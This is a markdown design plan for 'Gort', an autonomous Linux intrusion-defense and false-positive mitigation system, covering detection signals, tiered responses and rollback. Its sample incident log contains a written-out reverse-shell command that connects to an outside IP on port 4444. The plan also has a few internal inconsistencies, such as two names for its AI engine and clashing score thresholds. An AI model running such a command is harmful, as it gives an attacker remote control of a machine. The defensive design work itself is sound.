

# 🛡️ GORT Autonomous Intruder Defense & False-Positive Mitigation Plan

> **Blueprint for Autonomous Endpoint Intrusion Detection, Graduated Proactive Response, and False-Positive (FP) Minimization.**  
> *"Autonomous defense without collateral damage."*

---

## 1. Executive Problem Statement

Autonomous security agents operating at the Linux kernel and network level face a critical trade-off:
* **Under-reaction (High False Negatives):** The agent fails to stop fast automated attacks, reverse shells, and data exfiltration.
* **Over-reaction (High False Positives):** The agent blocks legitimate developer tools, software updates, background cloud syncs, or kills critical operating system daemons, causing downtime and user frustration.

This plan defines the architectural blueprint for **Gort's Autonomous Intruder Defense System (AIDS)**, ensuring **swift autonomous threat neutralization** while maintaining an **ultra-low false positive rate** through multi-signal correlation, graduated intervention tiers, cryptographic process verification, and self-healing rollbacks.

---

## 2. Autonomous Defense Architecture Overview



---

## 3. Multi-Signal Correlation Pipeline (Never Single-Signal Blocking)

To eliminate false positives, **Gort never triggers autonomous blocking on a single heuristic attribute alone.** A threat determination requires correlation across three orthogonal dimensions:

```
┌────────────────────────────────────────────────────────────────────────────┐
│                    TRIANGULATED EVIDENCE REQUIREMENT                       │
├──────────────────────────┬─────────────────────────┬───────────────────────┤
│  1. PROCESS PROVENANCE   │  2. NETWORK BEHAVIOR    │  3. USER/SYSTEM CONTEXT│
├──────────────────────────┼─────────────────────────┼───────────────────────┤
│ • Execution Directory    │ • Destination Rep       │ • Interactive TTY     │
│ • Parent Process Lineage │ • Protocol Mismatch     │ • Recent User Launch  │
│ • Binary Hash (SHA256)   │ • Exfiltration Volume   │ • Background Daemon   │
│ • Package DB Verification│ • Beacon Periodicity    │ • Known Service Tree  │
└──────────────────────────┴─────────────────────────┴───────────────────────┘
```

### Signal 1: Process Provenance & Cryptographic Verification
* **Package Grounding:** Cross-reference binary path against the local package database (`/var/lib/dpkg/info/*.md5sums` or RPM database). If binary is unmodified and signed by the OS distribution, FP risk is drastically reduced.
* **Execution Location:** Flag binaries executing from untrusted write paths (`/tmp`, `/var/tmp`, `/dev/shm`, `/run/user/`).
* **Lineage Tree Analysis:** Check process ancestor hierarchy. An interactive bash shell spawning `curl` is normal; a web server worker (`www-data`) spawning `/bin/sh` connecting outbound is high confidence for a remote code execution (RCE) intruder.

### Signal 2: Network Behavior & Telemetry Anomalies
* **Beaconing Entropy & Jitter:** Measure inter-packet timing variance. C2 frameworks (e.g., Cobalt Strike, Metasploit) exhibit distinct periodic timing intervals.
* **Protocol & Port Discrepancies:** Detect unencrypted shell streams on port 443 or raw binary protocols on HTTP ports.
* **Volume Burst Ratios:** Flag sudden spikes in outbound transfer (`TxBytes >> RxBytes`) originating from processes without prior network baselines.

### Signal 3: Human / Interactive Session Context
* **TTY & Desktop Session Linkage:** Determine if the process is a direct child of the user's active GUI terminal or SSH session. Actions initiated directly by an active user are given higher threshold requirements before autonomous blocking.

---

## 4. Graduated Response Ladder (Proportional Intervention)

Instead of a binary "Ignore vs Kill", Gort employs a **4-tier graduated response ladder**:

| Confidence Tier | Confidence Score | Autonomous Action Taken | FP Impact / Reversibility |
|---|---|---|---|
| **Tier 0: Normal / Trace** | `< 60%` | **Silent Observation**: Logs connection to `connection_history.log`, extends transient cache memory to 60s. | **Zero disruption.** |
| **Tier 1: Suspicious / Anomaly** | `60% – 79%` | **Micro-Throttling & Soft Notification**: Rate-limits socket bandwidth using Linux `tc` / Netfilter to prevent fast exfiltration. Displays non-modal TUI banner. | **Near-zero disruption.** Traffic slowed, not broken. |
| **Tier 2: High Probability Threat** | `80% – 94%` | **Non-Destructive Freeze (`SIGSTOP`) & Temporary Drop**: Sends `SIGSTOP` to suspend process in memory. Injects 15-minute temporary Netfilter drop rule. Displays 1-click "Resume / False Alarm" dialog. | **100% Reversible.** Process state preserved in RAM. If false alarm, `SIGCONT` resumes immediately with zero data loss. |
| **Tier 3: Critical Verified Intruder** | `≥ 95%` | **Autonomous Neutralization**: Sends `SIGKILL`, injects permanent kernel `iptables DROP`, severs open sockets via `tcpdrop`, captures memory/socket forensics, writes incident report. | **Full Neutralization.** Reserved strictly for multi-signal verified threats (e.g. reverse shell in `/dev/shm`). |

---

## 5. False-Positive (FP) Minimization Mechanisms

```
┌────────────────────────────────────────────────────────────────────────────┐
│                  5-LAYER FALSE-POSITIVE SAFETY NET                         │
├────────────────────────────────────────────────────────────────────────────┤
│ 1. Immutable Core Whitelist: Protected OS daemons & loopback services      │
│ 2. Dual-Engine Co-Signing: Local fast heuristic + Gemini AI consensus      │
│ 3. Non-Destructive Freeze (SIGSTOP): Pause before kill                     │
│ 4. TTL Auto-Decay: Temporary blocks expire automatically in 15 minutes     │
│ 5. Adaptive Feedback Loop: User overrides adjust feature weights in memory │
└────────────────────────────────────────────────────────────────────────────┘
```

### 1. Immutable System Core Whitelist
Protected services and IP ranges that can **never** be autonomously blocked:
* **System Daemons:** `systemd`, `systemd-resolved`, `sshd`, `chronyd`, `dbus-daemon`, `cupsd`.
* **Core Infrastructure:** Local loopback (`127.0.0.0/8`, `::1`), default gateway, local DHCP/DNS servers.
* **Critical OS Repositories:** Official distribution mirrors (Ubuntu, Debian, Fedora, Arch).

### 2. Dual-Engine Co-Signing (Local Heuristic + Antigravity AI)
* **Tier 2 & Tier 3 triggers require consensus**:
  1. The deterministic Zero-Trust engine computes `Score < 30`.
  2. The embedded **Google Antigravity AI Copilot** evaluates the structured context.
  3. Only when both the heuristic engine and the AI agree on malicious intent is Tier 2/3 enforcement executed.

### 3. Time-To-Live (TTL) Auto-Decay & Self-Healing
* Autonomous firewall rules are tagged with an ephemeral TTL (default: `15 minutes`).
* If no subsequent malicious behavior occurs and the user does not explicitly pin the rule, the rule decays gracefully. This prevents stale rules from blocking dynamic IPs or CDNs.

### 4. Interactive 1-Click Rollback & "Learn from User"
* Whenever Gort performs an autonomous intervention, an unobtrusive toast notification appears:
  > *"🤖 Gort paused suspicious process 'temp_tool' and blocked IP 185.190.140.2. [R]esume & Whitelist | [D]etails"*
* Pressing **`R`** instantly unfreezes the process (`SIGCONT`), removes the Netfilter rule, and records a local override rule so future sessions won't trigger.

---

## 6. Incident Audit Trail & Forensic Logging

Every autonomous detection and intervention is logged in structured JSON format in `~/.config/myfirewall/autonomous_defense.log`:

```json
{
  "timestamp": "2026-08-21T22:15:30Z",
  "incident_id": "INC-20260821-8842",
  "confidence_score": 96,
  "action_tier": "TIER_3_NEUTRALIZE",
  "threat_classification": "REVERSE_SHELL_INTRUDER",
  "process": {
    "name": "sh",
    "pid": 28412,
    "user": "www-data",
    "exe": "/bin/dash",
    "cmdline": "sh -i >& /dev/tcp/185.190.140.2/4444 0>&1",
    "parent_pid": 1042,
    "parent_name": "nginx",
    "sha256": "4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a",
    "package_verified": true
  },
  "network": {
    "protocol": "TCP",
    "direction": "OUTBOUND",
    "local_endpoint": "192.168.1.50:49202",
    "remote_endpoint": "185.190.140.2:4444",
    "hostname": "unresolved",
    "geo": "Russian Federation",
    "zone": "ZONE 5 (HIGH_RISK)"
  },
  "evidence_matrix": [
    "ANOMALOUS_CMDLINE (bash -i /dev/tcp)",
    "SUSPICIOUS_PORT_4444",
    "PARENT_WEB_SERVER_LINEAGE (nginx -> sh)",
    "UNRESOLVED_REVERSE_DNS"
  ],
  "ai_copilot_rationale": "High-confidence interactive reverse shell spawned from web server process www-data targeting an unverified high-risk external endpoint.",
  "actions_taken": [
    "PROCESS_TERMINATED (SIGKILL PID 28412)",
    "NETFILTER_INPUT_DROP (185.190.140.2)",
    "NETFILTER_OUTPUT_DROP (185.190.140.2)"
  ],
  "ttl_seconds": 0,
  "rollback_status": "NONE"
}
```

---

## 7. Implementation Roadmap

### Phase 1: Signal Engine & Whitelist Integration
* Implement `/proc/<PID>/stat` parent-process lineage harvester.
* Implement OS package manager checksum verifier (`dpkg-query` / `rpm`).
* Build static immutable system baseline whitelist in `zero_trust_engine.py`.

### Phase 2: Graduated Response Controller (`autonomous_sentinel.py`)
* Implement non-destructive `SIGSTOP` / `SIGCONT` process pause mechanisms.
* Implement temporary TTL rule scheduler for `firewall_manager.py`.
* Implement dual-model co-signing bridge with `ai_advisor.py`.

### Phase 3: TUI Notification & 1-Click Rollback Modal
* Add real-time incident toast banners and 1-click rollback prompts in `myfirewall2.py` / `ui_modals.py`.
* Add audit log viewer tab (`Tab 7: Autonomous Incident Trail`).

### Phase 4: Field Testing & Benchmark Validation
* Validate against simulated penetration tests (reverse shells, fast port scans, micro-burst exfiltration).
* Benchmark false-positive rates during heavy legitimate developer workloads (compiling Linux kernels, npm/pip installations, Docker container deployments, Zoom calls).
